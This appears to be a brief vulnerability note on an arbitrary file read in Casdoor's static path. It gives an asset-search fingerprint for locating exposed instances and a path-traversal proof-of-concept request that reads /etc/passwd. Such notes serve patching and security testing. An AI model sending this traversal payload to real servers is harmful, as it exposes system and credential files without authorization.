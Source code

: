 # Casdoor static Arbitrary file reading vulnerability

## Vulnerability Description

Casdoor static There is a vulnerability to read arbitrary file. Attackers can obtain sensitive files in the server by sending special request packets.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Casdoor </a-checkbox>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Casdoor" </a-checkbox>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1696485665805-41fd85ce-669b-4af6-b2d7-ce41f967d836.png)

Verify POC

```plain
/static/../../../../../../../../../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1696485691183-fca88e1a-c0dd-44e9-8ade-a51ae4a29615-20231108133631024.png)